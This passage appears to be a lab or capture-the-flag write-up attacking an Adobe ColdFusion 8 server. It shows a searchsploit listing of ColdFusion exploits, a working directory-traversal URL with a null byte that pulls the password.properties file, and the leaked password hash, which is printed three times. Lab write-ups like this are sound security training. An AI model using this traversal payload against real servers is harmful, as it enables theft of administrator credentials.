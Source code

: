 
```

-------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                            |  Path
                                                                          | (/usr/share/exploitdb/)
-------------------------------------------------------------------------- ----------------------------------------
Adobe ColdFusion - Directory Traversal (Metasploit)                       | exploits/multiple/remote/16985.rb
Adobe ColdFusion 2018 - Arbitrary File Upload                             | exploits/multiple/webapps/45979.txt
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String C | exploits/cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser. | exploits/cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Quer | exploits/cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?st | exploits/cfm/webapps/33168.txt
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Rem | exploits/windows/remote/43993.py
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)         | exploits/cfm/webapps/16788.rb
ColdFusion MX - Missing Template Cross-Site Scripting                     | exploits/cfm/remote/21548.txt
Macromedia ColdFusion MX 6.0 - Remote Development Service File Disclosure | exploits/multiple/remote/22867.pl
-------------------------------------------------------------------------- --------------------------------------

```


We find a directory traversal/file disclosure exploit:

```

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en


```



This gives us a hashed password...

```

#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true


#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true


#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true

```